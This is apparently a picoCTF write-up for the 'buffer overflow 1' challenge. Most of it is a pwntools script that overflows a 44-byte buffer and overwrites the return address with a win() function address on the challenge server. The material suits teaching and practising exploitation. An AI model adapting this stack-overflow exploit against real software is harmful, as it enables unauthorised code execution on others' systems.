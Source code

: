 # buffer overflow 1
### Description
> Control the return address

### Solution
Causes an overflow and overwrites the return address with a `win()` address.

```python
from pwn import *

#file = "./vuln"
host = "saturn.picoctf.net"
port = 57359
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = remote(host, port)
#io = process(file)
pld = b"A"*44
pld += p32(0x080491f6) #win

io.sendlineafter("string:", pld)

io.interactive()
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)


